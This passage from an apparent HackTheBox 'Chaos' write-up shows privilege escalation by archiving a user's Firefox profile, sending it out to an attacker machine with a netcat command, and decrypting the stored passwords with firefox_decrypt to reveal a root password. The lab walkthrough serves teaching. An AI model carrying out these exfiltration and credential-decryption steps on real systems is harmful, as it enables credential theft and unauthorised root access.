 <figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

### Mozilla Creds --> Root

The `ayush` user has a `.mozilla` folder present in their home directory:

```
$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Aug  5 05:51 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Aug  5 05:51 .gnupg
drwx------ 3 ayush ayush 4096 Aug  5 05:30 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Aug  5 05:19 user.txt
```

This could mean that there are Firefox credentials cached within the machine. We can use this repository to decrypt the passwords within:

{% embed url="https://github.com/unode/firefox_decrypt" %}

To use it, we need to zip up the entire `.mozilla` folder and transfer it to our machine via `nc`:

```bash
tar -czvf mozilla.tar.gz .mozilla
## On kali
$ nc -l -p 4444 > mozilla.tar.gz

## on ayush
nc -w 3 10.10.14.4 4444 < mozila.tar.gz
```

Then, we can extract the files and use `jiujitsu` again to decrypt the `root` password:

```
$ tar -xf mozilla.tar.gz
$ python3 firefox_decrypt.py ~/htb/chaos/.mozilla/firefox/bzo7sjt1.default
2023-08-05 14:02:03,327 - WARNING - profile.ini not found in /home/kali/htb/chaos/.mozilla/firefox/bzo7sjt1.default
2023-08-05 14:02:03,327 - WARNING - Continuing and assuming '/home/kali/htb/chaos/.mozilla/firefox/bzo7sjt1.default' is a profile location

Primary Password for profile /home/kali/htb/chaos/.mozilla/firefox/bzo7sjt1.default: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
